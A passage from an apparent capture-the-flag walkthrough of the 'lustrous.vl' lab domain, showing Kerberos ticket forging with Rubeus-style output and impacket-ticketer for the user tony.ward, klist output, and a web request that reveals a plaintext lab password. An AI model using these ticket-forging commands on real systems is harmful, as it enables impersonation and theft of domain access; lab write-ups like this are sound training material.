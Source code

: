     * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'tony.ward @ lustrous.vl' successfully submitted for current session

klist

    c:\ProgramData>klist

    Current LogonId is 0:0x3b7914

    Cached Tickets: (1)

    #0>     Client: tony.ward @ lustrous.vl
            Server: HTTP/lusdc.lustrous.vl @ lustrous.vl
            KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
            Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
            Start Time: 1/18/2025 0:26:31 (local)
            End Time:   1/16/2035 0:26:31 (local)
            Renew Time: 1/16/2035 0:26:31 (local)
            Session Key Type: RSADSI RC4-HMAC(NT)
            Cache Flags: 0
            Kdc Called:

tony.ward password

    PS C:\Users\Administrator> (iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content

    4.png

    <td>
    4
    </td>
    <td>
    Password Reminder
    </td>
    <td>
    U_cPVQqEI50i1X
    </td>
    <td>
    lustrous_tony.ward
    </td>

### Linux Abuse

    ➜  lustrous impacket-ticketer -nthash e67af8b3d78df5a02eb0d57b6cb60717 -domain-sid S-1-5-21-2355092754-1584501958-1513963426 -domain lustrous.vl -spn HTTP/lusdc.lustrous.vl -user-id 1114 tony.ward

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Creating basic skeleton ticket and PAC Infos
    /usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    aTime = timegm(datetime.datetime.utcnow().timetuple())
    [*] Customizing ticket for lustrous.vl/tony.ward
    /usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
    /usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())